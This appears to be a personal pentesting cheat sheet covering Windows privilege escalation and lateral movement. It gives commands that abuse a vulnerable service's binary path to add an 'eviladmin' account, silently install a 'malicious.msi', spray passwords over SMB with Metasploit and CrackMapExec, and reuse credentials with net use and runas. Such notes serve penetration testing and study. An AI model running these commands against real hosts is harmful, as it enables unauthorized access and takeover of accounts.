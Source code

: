 ```
python py installer module
python pyinsaller.py --onefile example.py
```

# Unrelated Notes

## Services
- Registry entries: `HKLM\SYSTEM\CurrentControlSet\Services`
- View service properties: `sc qc "Vulnerable Service"`
- Restarting: `sc stop "Vulnerable Service"`
- Restart PC: `shutdown /r /t 0`
- Change binary path: `sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add`

## MSI
- Installing MSI: `msiexec /quiet /qn /i malicious.msi`
```
/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs. administrative) installation
```


## Keep alive
When a service starts in Windows operating systems, it must communicate with the `Service Control Manager`. If it’s not, `Service Control Manager` will terminates the process.

# Using Credentials

## Password Spraying
- `auxiliary/scanner/smb/smb_login`
- Send the same credentials to all hosts listening on 445
    - `msf auxiliary(smb_login) > services -p 445 -R`
- Can do same with `CrackMapExec` for a subnet: https://github.com/byt3bl33d3r/CrackMapExec
- Can use following command to explore:
```
net use \\machine-name /user:username@domainname passwords
dir \\machine-name\c$
net use
```
- Can be detected by using `net session`
- Can terminate all session with `net use /delete *`
- Some commands, such as `net view` use the login user-name. .: use `runas`
```
runas /netonly /user:user@domainname "cmd.exe"
net view \\machine-name /all
```
- Verify it uses Kerberos by `klist`
